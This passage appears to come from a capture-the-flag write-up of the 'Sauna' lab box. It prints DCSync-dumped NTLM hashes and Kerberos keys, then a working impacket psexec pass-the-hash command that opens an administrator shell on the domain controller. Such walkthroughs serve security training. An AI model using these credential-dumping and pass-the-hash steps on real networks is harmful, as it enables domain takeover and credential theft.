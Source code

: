     [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
    EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
    SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:7a2965077fddedf348d938e4fa20ea1b:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
    Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
    Administrator:des-cbc-md5:19d5f15d689b1ce5
    krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
    krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
    krbtgt:des-cbc-md5:c170d5dc3edfc1d9
    EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
    EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
    EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
    EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
    EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
    EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
    SAUNA$:aes256-cts-hmac-sha1-96:a90968c91de5f77ac3b7d938bd760002373f71e14e1a027b2d93d1934d64754a
    SAUNA$:aes128-cts-hmac-sha1-96:0bf0c486c1262ab6cf46b16dc3b1b198
    SAUNA$:des-cbc-md5:b989ecc101ae4ca1
    [*] Cleaning up...

## PTH

We can then use the [Path the hash](http://blog.gentilkiwi.com/tag/pass-the-hash)
technique with
[impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/) to login as
Administrator on the Domain Controller as administrator and get the flag.

    :::text
    python psexec.py egotisticalbank.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.175.....
    [*] Found writable share ADMIN$
    [*] Uploading file NEOSMAXA.exe
    [*] Opening SVCManager on 10.10.10.175.....
    [*] Creating service RFiq on 10.10.10.175.....
    [*] Starting service RFiq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.973]
    (c) 2018 Microsoft Corporation. All rights reserved.
